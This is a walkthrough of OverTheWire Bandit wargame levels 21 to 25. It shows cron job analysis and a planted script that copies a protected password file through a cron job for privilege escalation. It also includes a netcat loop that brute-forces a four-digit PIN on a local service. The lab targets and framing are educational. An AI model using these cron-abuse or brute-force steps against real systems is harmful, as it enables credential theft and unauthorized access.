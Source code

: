 # 🔐 OverTheWire Bandit - Levels 21–24

## 📌 Overview
Levels 21–24 focus on **cron job analysis**, **script manipulation**, and **brute force techniques**. These exercises demonstrate real-world scenarios like analyzing scheduled tasks, understanding system automation, creating custom scripts, and implementing basic brute force attacks against network services.

---

## 🧭 Level Highlights (21 → 24)

### Level 21 → 22
**Goal**: Analyze cron jobs to find automated password retrieval.

**Commands / approach**:
```bash
ssh bandit21@bandit.labs.overthewire.org -p 2220
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit22
cat /usr/bin/cronjob_bandit22.sh
cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

**Result**: Password found in temporary file.

**Why**: Demonstrates cron job analysis — understanding how scheduled tasks work and where they store output. In real environments, malicious cron jobs are common persistence mechanisms.

---

### Level 22 → 23
**Goal**: Reverse engineer a script that generates dynamic file paths using username hashing.

**Commands / approach**:
```bash
ssh bandit22@bandit.labs.overthewire.org -p 2220
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit23
cat /usr/bin/cronjob_bandit23.sh
echo "I am user bandit23" | md5sum | cut -d ' ' -f 1
# Target hash: 8ca319486bfbbc3663ea0fbe81326349
cat /tmp/8ca319486bfbbc3663ea0fbe81326349
```

**Result**: Password retrieved from hash-based filename.

**Why**: Shows how to reverse engineer script logic and predict dynamic file paths. Understanding hash-based naming conventions is useful for forensic analysis.

---

### Level 23 → 24
**Goal**: Create and deploy a custom script that will be executed by a cron job.

**Commands / approach**:
```bash
ssh bandit23@bandit.labs.overthewire.org -p 2220
ls -la /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mktemp -d
# Working directory: /tmp/tmp.mu1REKVutY
cd /tmp/tmp.mu1REKVutY
nano bandit24pw.sh
```

**Script content**:
```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/bandit24_pass.txt
```

**Execution**:
```bash
chmod +x bandit24pw.sh
# Copy script to /var/spool/bandit24/foo (as per cron job)
# Wait for cron execution
cat /tmp/bandit24_pass.txt
```

**Result**: Script executed successfully, password extracted.

**Why**: Teaches script deployment and understanding cron job execution contexts. This simulates how attackers might abuse automated systems for privilege escalation.

---

### Level 24 → 25
**Goal**: Implement a brute force attack against a network service requiring password + PIN combination.

**Commands / approach**:
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
nc localhost 30002  # Test the service
mkdir /tmp/yout
cd /tmp/yout
vim brute.sh
```

**Brute force script**:
```bash
#!/bin/bash
bandit24=<current_level_password>
for pin in {0000..9999}; do
    echo "$bandit24 $pin"
done | nc localhost 30002
```

**Execution**:
```bash
chmod 777 brute.sh
./brute.sh
# Wait for correct PIN to be found
```

**Result**: Correct PIN combination found through brute force.

**Why**: Demonstrates basic brute force techniques and network service interaction. Understanding how to automate credential testing is important for both offensive and defensive security.

---

## 🛠 Tools & Commands You Practiced
- **Cron analysis**: `ls /etc/cron.d`, `cat cronjob_*`
- **Hash generation**: `md5sum`, `cut`
- **File operations**: `mktemp -d`, `nano`, `chmod +x`
- **Network interaction**: `nc localhost port`
- **Bash scripting**: loops, variable assignment, piping
- **Brute force**: automated credential testing

## 🔎 Key Takeaways
- **Cron job enumeration** is a standard privilege escalation technique — always check `/etc/cron.d` and `/var/spool/cron`.
- **Script analysis** requires understanding the execution context and predicting output locations.
- **Custom script deployment** through automated systems can be used for both legitimate tasks and malicious persistence.
- **Brute force attacks** against network services require understanding the service protocol and implementing efficient automation.
- **Temporary directories** (`mktemp -d`) provide secure workspace for script development and testing.

**Reference**: https://overthewire.org/wargames/bandit/
